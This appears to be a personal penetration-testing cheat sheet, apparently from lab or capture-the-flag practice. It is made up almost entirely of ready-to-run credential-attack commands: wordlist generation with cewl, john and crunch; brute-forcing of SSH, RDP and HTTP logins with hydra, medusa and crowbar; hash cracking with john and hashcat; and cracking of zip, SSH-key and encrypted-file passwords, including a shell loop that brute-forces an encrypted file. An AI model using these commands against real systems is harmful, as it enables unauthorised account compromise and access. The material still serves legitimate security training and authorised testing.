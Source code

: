 ## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
            
## Password Cracking:  
	  hash-identifier
	  $5$ sha256, 
	  gunzip /usr/share/wordlists/rockyou.txt
	  Online:  https://crackstation.net/
	  John the Ripper:
		    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    Linux:
	  Hashcat (GPU-based):
	      Modes: 3200 bcrypt, 7400 sha256,
	      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
	      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
	      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
	      Rule Example:
		  password is some variation of PleaseSubscribe!
		  echo -n "PleaseSubscribe\!" > rulefile.txt
		  hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
	      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
		      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
	  Other File Formats:
	    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
	      Or: zip2john ...
	    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
			  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
	    keepass2john (.kdbx file)
	    rar2john
	    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz  
	    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;  

